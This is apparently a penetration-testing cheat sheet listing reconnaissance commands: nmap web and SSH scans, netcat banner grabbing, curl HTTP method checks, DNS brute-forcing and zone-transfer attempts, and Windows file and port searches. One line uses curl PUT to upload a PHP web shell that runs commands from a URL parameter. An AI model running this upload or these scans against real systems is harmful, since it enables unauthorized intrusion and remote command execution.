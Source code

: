 ## WEB page titles from a subnet of IPs
nmap --script http-title -sV -p 80 192.168.1.0/24  

## Grab banners
root@kali:~# nc -n -vv 192.168.13.230 80
HEAD / HTTP/1.1      // or 1.0
HEAD   ### <address>Apache/2.2.22 (Ubuntu) Server at xyz.com Port 80</address>
GET /index

## HTTP methods. Inspecting the response of the OPTIONS verb on the /test directory.
curl -v -X OPTIONS http://192.168.230.153/test/

#get page with different user agent
curl -H "User-Agent:Mozilla/4.0" http://192.168.31.146:8080/phptax/ | head -n2

# create a .php file in /test directory with curl.
curl -X PUT -d '<?php system($_GET["c"]);' http://192.168.56.103/test/1.php

#connect to a UDP port
nc -u localhost 161

  == DNS enumeration ==
dnsrecon -r 192.168.13.200-192.168.13.254 -n 192.168.13.220   //reverse lookup. dns server is -n
dnsrecon -d acme.local -D /usr/share/golismero/wordlist/dns/dnsrecon.txt -t brt  //bruteforce the acme.local domain for domains and subdomains
dnsrecon -a -d thinc.local -n 192.168.13.220  ## trying zone transfer. -n is the DNS server
nmap -sU -p 22 --script=*dns* 192.168.1.200

## find DNS (A) records by trying a list of common sub-domains from a wordlist.
nmap -p 80 --script dns-brute.nse domain.com
python dnscan.py -d domain.com -w ./subdomains-10000.txt

  == SSH server info ==
nmap --script=ssh2-enum-algos,ssh-hostkey,sshv1.nse 192.168.13.234

  == WINDOWS ==
# search for files
C:\> dir /s /b network-secret.txt

dir /q calc.exe //display ownership
dir /a:d calc.exe // /a is mandatory
  d Directories
  h Hidden files
  s System files

# Find all listening ports and filer by string
netstat -aon | find /i "listening" | findstr 127.0.0.1
